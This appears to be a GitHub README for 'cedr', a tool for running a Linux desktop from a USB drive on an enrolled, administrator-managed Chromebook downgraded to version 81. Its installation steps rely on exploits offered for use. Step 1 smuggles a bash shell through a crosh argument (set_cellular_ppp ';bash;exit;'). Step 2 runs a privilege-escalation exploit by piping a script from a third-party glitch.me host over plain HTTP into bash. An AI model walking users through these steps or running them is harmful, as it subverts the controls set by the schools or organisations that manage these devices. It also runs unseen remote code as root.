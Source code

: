 # cedr
cedr - the ChromeOS Enrolled Desktop Runtime

## Requirements
 - A Chromebook, downgraded to v81 with crosh access
 - A USB drive or SD card, 4gb or more (32gb is reccomended), formatted with a **single partition**, ext4 filesystem

## Installation onto a USB drive

1. Open a crosh tab (Ctrl+Alt+T) and get into bash:
```crosh
set_cellular_ppp \';bash;exit;\'
```
2. Run the privilege escalation exploit:
```bash
bash <(curl http://hostz.glitch.me/80.sh)
```
3. Now, plug in your USB drive/SD card and find the path to its block device. Usually, it'll be /dev/sda if you're using a USB drive, or something different with an SD card. Either way, use the following command to find it (it's usually at the bottom)
```bash
fdisk -l
```
4. Once you know the drive you're installing cedr to, you can mount the drive and download cedr as follows:
```bash
mkdir -p /home/chronos/usbdrv
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv # Be sure to replace /dev/sdX with your drive!
cd /home/chronos/usbdrv
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-install.sh -o cedr-install.sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-activate.sh -o cedr-activate.sh
chmod +x cedr-activate.sh
chmod +x cedr-install.sh
```
5. You now need to choose a target to install. You can choose from the options [here](https://github.com/rainestorme/crouton/tree/master/targets). Each target represents a desktop environment. For this tutorial, I'll use `xfce` as the target, but you can change it to whatever you want.
```bash
./cedr-install.sh xfce
```
6. This will take around 50 minutes and once it's done, it will prompt you for a username and password. Supply these and the chroot will automatically be unmounted. Now, to activate the desktop, run the following, replacing `startxfce4` with the normal host command (see the crouton docs) you would use to launch it:
```bash
./cedr-activate.sh startxfce4
```
7. Now that you're done working within your chroot desktop environment, you can logout of the session using the built-in controls. If you want to unplug the USB drive, wait for the process to finish unmounting, then run the following:
```bash
cd /home/chronos
umount /home/chronos/usbdrv
```

## Usage

After creating a USB drive with cedr, you can remount it and launch the desktop environment with the following steps:

1. Mount the drive:
```bash
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv # Be sure to replace /dev/sdX with your drive!
cd /home/chronos/usbdrv
```
2. Launch `cedr-activate.sh` with the host command you found earlier:
```bash
./cedr-activate.sh startxfce4
```

